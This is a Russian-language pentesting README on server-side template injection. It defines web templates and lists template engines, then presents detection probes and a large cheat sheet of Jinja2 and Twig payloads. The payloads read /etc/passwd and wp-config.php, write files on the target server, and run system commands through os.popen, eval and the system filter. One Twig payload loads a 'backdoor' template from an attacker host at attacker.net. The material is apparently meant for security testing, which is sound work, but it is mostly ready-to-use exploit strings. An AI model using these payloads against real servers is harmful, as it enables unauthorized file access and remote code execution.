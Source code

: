 # SSTI - Server Side Template Injection
Server Side Template Injection – это уязвимость (то есть вид атаки на шаблонизаторы), при которой непосредственная вставка пользовательских данных в шаблон может спровоцировать критическую уязвимость в системе.

Template Injection может возникнуть, если пользовательские данные вставляются в шаблон без какой-либо валидации (или с плохой валидацией)

Веб-шаблон – это некоторый тематический html документ, который не является полноценной html страницей, а лишь оболочкой для каких-либо данных. Для ассоциативного ряда можно представить вебшаблон как бланк принятия посылки с почты. Бланк имеет общую структуру (графу ФИО, телефон, получатель, отправитель и так далее).Таких бланков много и все они одинаковые для каждого человека, который будет ее заполнять. Но каждый заполняет ее своими данными.

Шаблонизатор – это программное обеспечение, позволяющее использовать шаблоны для генерации конечных html-страниц. Другими словами, именно шаблонизатор занимается отделением представления конечного результата от исполняемого кода, который в свою очередь заполняет определенными данными шаблон 

|    Среда        | Описание                      
|----------------|-------------------------------|
|Java|Apache, Velocity, FreeMarker, Histone  |    
|PHP  |BH, Fenom, Smarty, Twig, TinyButStrong, XTemplate, Histone, Separate, Blade, Sigma, PHPTAL, Facebook, XHP, dwoo, Blitz, templates | 
|Python | Genshi, Kid, Jinja2, Mako |
|Perl|Template, Toolkit, HTML::Template|
|Ruby |Ruby, Erubis, Haml, Slim, Liquid |
|JS |bem-xjst, BH, Handlebars, Underscore, pug, Histone |


При тестировании веб приложения уязвимости SSTI следует
придерживаться следующего алгоритма:
- Обнаружение
- Идентификация
- Эксплуатация: Чтение --> Исследование --> Атака

 ### Обнаружение
 ```
{{5*6}}
${5*6}
<%= 5*6%>
${{5*6}}
#{5*6}
*{5*6}
```

### Идентификация

![Идентификация](https://github.com/user-attachments/assets/eb6fc930-4d4a-4bae-9455-683fb8b2d622)



### Эксплуатация (чтение)

В документации есть ключевые части, которые следует просмотреть с точки зрения эксплуатации уязвимости:
- Раздел «For Template Authors» описывает базовый синтаксис;
- «Security Considerations» - есть огромный шанс, что разработчики веб приложения не читали данный раздел;
- Список встроенных функций, методов и переменных;
- Список дополнений и расширений — некоторые из них могут быть включены по умолчанию.

### Эксплуатация (Исследование)
Многие шаблонизаторы имеют объект «self», который предоставляет информацию обо всех других объектах и методах. Если же объекта self нет, то можно попробовать профаззить объекты с помощью инструментов Burp Suite или Wfuzz и словарей с готовыми полезными нагрузками (Seclists, FuzzDB)

### Эксплуатация (Атака)

Допустим, было обнаружено веб приложение, уязвимое к SSTI. Также было обнаружено, что приложение использует шаблонизатор Jinja2. Тогда можно проэксплуатировать уязвимость следующим образом: например, добьемся чтения локального файла сервера. Так как шаблонизатор написан на Python, будем использовать функции mro и subclasses ().


### Суть SSTI заключается в том, чтобы использовать методы языка, на которых написан шаблонизатор, в своих целях.

Краткое описание классов, методов и атрибутов:
```
__class__ возвращает объект, которому принадлежит тип
__mro__ возвращает кортеж, содержащий базовые классы, унаследованные объектом, и метод анализируется в порядке кортежей во время синтаксического анализа.
__base__ возвращает базовый класс, унаследованный этим объектом
// __base__ и__mro__ используется для поиска базового класса.
__subclasses__ Каждый новый класс сохраняет ссылки на подклассы. Этот метод возвращает список ссылок, которые все еще доступны в классе.
__init__ метод инициализации класса
__globals__ Ссылка на словарь, содержащий глобальные переменные функции.
```
#### Атрибут __mro__ в Python позволяет «двигаться» по древу и наследовать вверх к суперклассу, а функция subclasses () позволяет «двигаться» вниз к наследникам. Таким образом, можно «выбраться» из одного класса и воспользоваться другим.
```
{''.__class__}}
{{''.__class__.__mro__}}
{{''.__class__.__mro__[2]. Subclasses__()}}
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```


# Cheet shet
### Jinja2

#### Получение списка классов:
```
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
```
#### Чтение файлов с удаленного сервера:
```
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
#### Запись в файл на удаленном сервере:
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt','w').write('Hello here !') }}
```
#### Выполнение файлов на удаленном сервере:
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}
{{ cycler.__init__.__globals__.os.popen('id').read() }}
{{ joiner.__init__.__globals__.os.popen('id').read() }}
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
#### Для Python 3
 #### Чтение файлов с удаленного сервера:
```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()}}
```
#### Выполнение файлов на удаленном сервере:
```
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("_
_import__('os').popen('id').read()")}}
{{''.__class__.__mro__[1].__subclasses__()[280]('id', shell=True, stdout=-1).communicate()}}
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('id').read()}}
```

### Twig

#### Чтение файлов с удаленного сервера:
```
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{include("wp-config.php")}}
```
#### Выполнение файлов на удаленном сервере:
```
{{self}}
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id")}}
{{['id']|filter('system')}}
{{[0]|reduce('system','id')}}
{{['id']|map('system')|join}}
{{['id',1]|sort('system')|join}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
```
